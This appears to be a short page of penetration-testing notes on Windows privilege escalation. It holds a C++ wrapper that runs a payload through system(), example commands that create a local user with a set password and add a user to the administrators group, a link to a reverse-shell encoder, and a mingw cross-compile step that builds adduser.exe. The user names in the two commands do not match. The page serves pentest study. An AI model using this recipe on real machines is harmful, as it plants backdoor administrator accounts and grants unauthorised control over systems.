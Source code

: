 ```yaml
---
title: Target reconnaissance
description: Inspect client foothold in order to perform Client side attacks
tags:
  - Exploitation
  - Windows
  - Privilege Escalation
---
```


## Generating executable from C++

```cpp 
#include <stdlib.h>

int main ()
{
  int i;
  
	// PAYLOAD EXAMPLE
	// ADD USER : "net user rootking password123! /add" / "net localgroup administrators cvericel /add"
	// REV SHELL : Use /opt/psh-encode-revshell.py
  i = system ("PAYLOAD");
  
  return 0;
}
```

## Payload example

+++ Create new admin user

```
"net user rootking password123! /add" / "net localgroup administrators cvericel /add"
```

+++ Reverse shell

[!ref icon=":rocket:"](encode-pwsh-rev-shell.md)


+++

## Cross-Compile the C Code to a 64-bit application

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```